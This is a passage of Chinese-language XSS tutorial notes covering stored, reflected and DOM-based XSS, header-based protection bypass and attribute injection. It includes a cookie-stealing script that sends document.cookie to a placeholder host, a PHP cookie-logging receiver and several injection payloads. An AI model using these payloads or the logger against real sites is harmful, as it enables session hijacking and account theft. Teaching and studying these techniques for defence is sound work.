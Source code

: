 ==onreadystatechange 事件被触发 5 次（0 - 4），对应着 readyState 的每个变化。==

### 6.1 存储型XSS

把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在

提交js攻击代码 存储到数据库然后输出

```html
<script src="js_url"></script>
```

```javascript
<script>
document.write('<img src="php_url?cookie='+document.cookie+'"width=0 height=0 />');
</script>
```

```php
<?php
$cookie = $_GET['cookie'];
$ip = getenv ('REMOTE_ADDR');
$time = date('Y-m-d g:i:s');
$fp = fopen("cookie.txt","a");
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n");
fclose($fp);
?>  
```

### 6.2 反射型XSS

非持久性xss攻击仅对当此页面访问产生影响

包含在url中,诱导用户点击

```url
https://wahh-app.com/error.php?message=<script>alert(''xss''）;</script>
```

### 6.3 dom-XSS

类比SQL注入，不经过服务器直接执行JS代码。

```html
<script> alert(1); </script>
```

### 6.4 X-XSS-Protection

浏览器的安全策略

```php
header("X-XSS-Protection:0");//禁用XSS保护
```

### 6.5 CRLF-XSS

响应头注入
### 6.6 三种主要类型
#### 6.6.1 HTML标签
```html
<input name="user" value="{{your input}}"/>
<!--
payload: " onclick="alert(/xss/)
"><sccript>alert(/xss/)</script>
-->
```
#### 6.6.2 CSS代码
```css
<style type="text/css">
```